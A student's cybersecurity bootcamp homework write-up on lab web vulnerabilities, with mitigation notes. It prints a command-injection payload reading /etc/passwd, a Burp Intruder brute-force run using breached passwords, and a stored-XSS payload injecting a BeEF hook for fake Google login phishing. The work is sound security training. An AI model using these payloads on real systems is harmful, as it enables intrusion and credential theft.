



# Unit 15 Homework - Web Vulnerabilities and Hardening.

### Web Application 1: *Your Wish is My Command Injection*
-----------------------------------------------------------
If your Vagrant file is active then `Open Oracle VM VirtualBox Manager` and start your Virtual Machine.  

Start the `Terminal` in your Virtual Machine.
  > Run the following command from your `Terminal`.  
  > `cd ./Documents/web-vulns && docker-compose up`  
  > Once the `Docker Containers` are up, Open `Firefox Web Browser`  
  > Navigate to the following webpage: <http://192.168.13.25>   
  > Log in with the following credentials:  
  >   - User name: `admin`  
  >   - Password: `password`  
  > Select the **Command Injection** option or access the webpage directly at this page: <http://192.168.13.25/vulnerabilities/exec/>  

  - As per the ping `8.8.8.8 && pwd` there are five levels of sub-directories, see below:  
    >   

  - Based on above, using the dot-dot-slash method `../` need to do it 5 times to access the payloads, that will display the contents of the following directories/files.  
   
    - `/etc/passwd`  
      - From Command line in `Terminal`
          

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/passwd`
        
      
    - `/etc/hosts`  
      - From Command line in `Terminal`
          

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/passwd`
        
  
### ***Recommended Mitigation Strategies***  
-------------------------------------------
  > - **Avoid Command Line Calls Altogether if possible** - _Use of APIs only where ever possible._  
  > - **Set up Input Validation** - _Command Injection vulnerabilities occur when untrusted input is not sanitized correctly._ A white list of possible inputs should be created for the system to accepts only the pre-approved inputs, and avoid the following characters:
  >  ;  
  >  &  
  >  |  
  >  `  
  > - **Run with Restricted Permissions** - Reduce the number of users to access the database and the secure the locations of all confidential files and the directories.  

### Web Application 2: *A Brute Force to Be Reckoned With*
----------------------------------------------------------
- From the `Terminal` in Vagrant run the command `sudo burpsuite` to start the `Burp Suite Community Edition`
- Open Firefox browser on Vagrant and navigate to the webpage <http://192.168.13.35/ba_insecure_login_1.php>
- Make sure the `FoxyProxy` setting on the web browser is set to `Burp`.  
   

- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.
  - Enter the User name: `test-user`  
  - Enter the Password: `password`  
    
- Following was displayed in the `Burp Suite` in **`Proxy`** tab under the _`Intercept`_ - Highlighting the Login and password credentials.  
  `Request to http://192.168.13.35:80`  
  ```
  POST /ba_insecure_login_1.php HTTP/1.1
  Host: 192.168.13.35
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 48
  Connection: close
  Referer: http://192.168.13.35/ba_insecure_login_1.php
  Cookie: PHPSESSID=6qk327baioj8ioe6p70ff6bvt1; security_level=0
  Upgrade-Insecure-Requests: 1
  
  login=test-user&password=test-passwd&form=submit
  ```
    

- From the web application tool **Burp Suite**, on the `Intercept` tab Right click anywhere to send the information to `Intruder`  
  - Select the `Intruder` tab, and verify the `Target` tab:  
    
  
  - Select the `Position` tab and change the `Attack type:` to **`Cluster bomb`**, also clear all payload positions, except for the login and password credentials.  
      

  - You've been provided with a list of administrators and the breached passwords:

     - [List of Administrators](listofadmins.txt)
     - [Breached list of Passwords](breached_passwords.txt)
  
  - Select the `Payloads` tab, and enter the `List of Administrators` file provided above into the Payload Options [Simple list] for the set 1.  
      
  - Add the passwords from the `Breached list of Passwords` file provided above into the Payload Options [Simple list] for the set 2.  
      
  - Click the `Start attack` button to get the results.  

- Results from the analysis that was completed from the `Intruder` show that there was one successful login username/password combination. It was user name of "**`tonystark`**" and the password "**`I am Iron Man`**". Below snapshot displays the `Successful login! You really are Iron Man :)` in the `Response` tab.  
    

### ***Recommended Mitigation Strategies***  
-------------------------------------------
> There several ways to monitor and mitigate:  
>   - Locking the account after a fixed number of failed attempts.  
>   - Making the Usernames and Passwords more complex, and increase the frequency of changing the passwords.  
>   - Lock-out the IP address, if there are multiple login attempts.  
>   - Brute force site scanners. Scan the logs to see if there was a brute force attempted recently.  

### Web Application 3: *Where's the BeEF?*
------------------------------------------
1. Complete the following to set up the activity. 

   - On Vagrant, open a command line and run the following command: `sudo beef`

   - When prompted for a password, enter `cybersecurity`.

   - This will kick off the BeEF application and return many details about the application to your terminal.

   - Along with these details are several URLs that can be used to access to BeEF's User Interface (UI). For example: `UI_URL: http://127.0.0.1:3000/ui/panel` 
   
   - To access the BeEF GUI, right-click the first URL and select Open Link.

     

   - When the BeEF webpage opens, login with the following credentials:
     - Username: `beef`
     
     - Password: `feeb`

     

   - You have successfully completed the setup when you have reached the `BeEF Control Panel` shown in the image below:

     

2. The Browser Exploitation Framework (BeEF) is a practical client-side attack tool that exploits vulnerabilities of web browsers to assess the security posture of a target.      

   - While BeEF was developed for lawful research and penetration testing, criminal hackers leverage it as an attack tool.
  
   - An attacker takes a small snippet of code, called a BeEF Hook, and determines a way to add this code into a target website. This is commonly done by cross-site scripting.

   - When subsequent users access the infected website, the users' browsers become *hooked*.
     - Once a browser is hooked, it is referred to as a **zombie**. A zombie is an infected browser that awaits instructions from the BeEF control panel.
     - The BeEF control panel has hundreds of exploits that can be launch against the *hooked* victims, including:
       - Social engineering attacks 
       - Stealing confidential data from the victim's machine
       - Accessing system and network information from the victim's machine
       
3. BeEF includes a feature to test out a simulation of an infected website.
    
    - To access this simulated infected website, locate the following sentence on the BeEF control panel: `To begin with, you can point a browser towards the basic demo page here, or the advanced version here.`
    
    - Click the second "here" to access the advanced version.  
     
       

    - This will open the following website, which has been infected with a BeEF hook.

       

    - Note that once you have pulled up this infected webpage, your browser has now been hooked!

    	- If your browser has not been hooked, restart your browser and try again.

    -  Return to the control panel. On the left side, you can notice that your browser has become infected since accessing the infected Butcher website. Note that if multiple browsers become infected they will all be listed individually on the left hand side of this panel.

      - Click on the browser `127.0.0.1` as indicated in the screenshot below.

        

      - Under the Details tab, we can see information about the infected browser. 

4. Now we are ready to test an exploit.

    - Select the Commands tabs. 
    
      - This will list folders of hundreds of exploits that can be ran against the hooked browser. Note that many may not work, as they are dependent on the browser and security settings enabled.
  
   - First, we'll attempt a social engineering phishing exploit to create a fake Google login pop up. We can use this to capture user credentials.
     
   - To access this exploit, select Google Phishing under Social Engineering.

       

   - After selecting this option, the description of the exploit and any dependencies or options are displayed in the panel on the right.

       

   - To launch the exploit, select Execute in the bottom right corner.

     - After selecting Execute, return back to your browser that was displaying the Butcher Shop website. Note that it has been changed to a Google login page.

     - A victim could easily mistake this for a real login prompt.

   - Lets see what would happen if a victim entered in their credentials. Use the following credentials to login in to the fake Google page. 
     - Username: `hackeruser`
     - Password: `hackerpass`

       

   - Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.

     

5. Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      - **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft
     
     - Social Engineering >> Fake Notification Bar
     
     - Host >> Get Geolocation (Third Party)
    
6. **Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies. 

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
  
## :sunglasses: `Ketan Vithal Patel` :sunglasses:
==============================================
### `July 5, 2021 -- UofT Cybersecurity - Boot Camp`
#### :rose::rose:`Jai Shri Swaminarayan`:rose::rose:
```
હરે કૃષ્ણ હરે કૃષ્ણ, કૃષ્ણ કૃષ્ણ હરે હરે |  
હરે રામ હરે રામ, રામ રામ હરે હરે ||
```
